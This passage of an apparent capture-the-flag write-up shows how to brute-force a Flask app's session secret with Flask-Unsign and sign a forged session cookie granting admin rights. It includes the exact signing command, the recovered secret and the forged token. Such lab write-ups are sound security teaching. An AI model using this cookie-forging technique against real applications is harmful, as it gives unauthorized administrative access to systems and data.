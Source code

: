 let’s do it :

![Screenshot (329).png](/assets/img/blog/BLOG%2034a686eb96fd436bb80286dfa0e092a3/Screenshot_(329).png)

so it’s clear now , we will brute force the secret the modify the token to be like that `{"is_admin":true,"user_id":"1","username":"admin"}`

and in these tasks we will use the awesome tool [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign):

1- brute force the secret key

![brute.png](/assets/img/blog/BLOG%2034a686eb96fd436bb80286dfa0e092a3/brute.png)

the secret key is `amorlove`

2 - let’s modify the token and sign it :

```php
logan0x@logan0x:~/Flask-Unsign/flask_unsign$ flask-unsign --sign --cookie "{'is_admin': True, 'user_id': '1', 'username': 'admin'}" --secret "b'amorlove'"
.eJyrVsosjk9Myc3MU7IqKSpN1VEqLU4tis9MUbJSMlSC8PISc1OBXIiqWgC2jxDc.ZM2mig._Qbf3SobuNZFhAgm4Win-cIwKJ4 //the new token
```

now let’s get the flag :

![Screenshot (331).png](/assets/img/blog/BLOG%2034a686eb96fd436bb80286dfa0e092a3/Screenshot_(331).png)
